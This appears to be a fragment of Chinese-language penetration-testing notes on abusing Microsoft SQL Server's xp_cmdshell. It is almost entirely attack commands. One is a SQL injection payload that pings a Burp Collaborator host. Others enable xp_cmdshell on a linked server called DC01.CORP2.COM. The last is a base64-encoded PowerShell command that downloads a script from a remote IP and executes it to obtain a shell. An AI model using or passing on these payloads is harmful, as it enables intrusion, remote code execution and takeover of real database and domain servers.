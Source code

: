'; DECLARE @x AS VARCHAR(100)='xp_cmdshell'; EXEC @x 'ping k7s3rpqn8ti91kvy0h44pre35ublza.burpcollaborator.net' —
```


在heidisql操作开启cmdshell,并且执行cmd

```
EXEC('sp_configure ''Show Advanced Options'', 1; RECONFIGURE;') AT [DC01.CORP2.COM]

EXEC('sp_configure ''xp_cmdshell'', 1; RECONFIGURE;') AT [DC01.CORP2.COM]

exec('EXEC master..xp_cmdshell ''whoami''') AT [DC01.CORP2.COM]
```

拿shell
```
exec('EXEC master..xp_cmdshell ''powershell -enc KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQAuADIAMQA0AC8AcgB1AG4ALgB0AHgAdAAnACkAIAB8ACAASQBFAFgA''') AT [DC01.CORP2.COM]
```
